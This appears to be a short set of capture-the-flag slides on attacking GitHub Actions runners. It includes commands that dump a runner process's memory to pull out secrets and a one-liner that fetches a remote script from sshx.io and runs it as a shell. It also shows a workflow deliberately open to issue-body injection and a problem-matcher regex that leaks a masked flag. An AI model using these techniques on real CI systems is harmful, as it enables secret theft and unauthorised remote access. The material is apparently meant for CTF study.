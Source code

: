 ## Am I too early ?

```yaml
solutions:
  dump memory : |
    sudo apt-get install -y gdb;
    sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')";
    grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
  (fancy) reverse shell: |
    curl -sSf https://sshx.io/get | sh -s run
```
---

## I'm just a file

```yaml
# Not publish yet, do not share
name: How can I get the flag
on: issues # Trigger
jobs:
  test:
    steps:
      - name: Save body
        env:
          BODY: ${{ github.event.issue.body }}
        run: |
          echo "Save body"
          echo ${BODY} > /tmp/issue.txt
          echo "Check body content"
          cat /tmp/issue.txt

      - name: Can't touch this
        run: |
          echo Flag: ${{ secrets.FLAG }}
```

---

## I'm just a file

```json
{
      "problemMatcher": [
          {
              "owner": "tr4l",
              "severity":"warning",
              // comment it not part of problem match schema
               "comment" : "##[add-matcher dummy content]/tmp/issue.txt
  another line",
   
              "pattern": [
                  {
                      "regexp": "^Flag: (.{3})(.*)$",
                      "code": 1,
                      "message": 2
                  }
              ]
          }
      ]
  }
 ```

---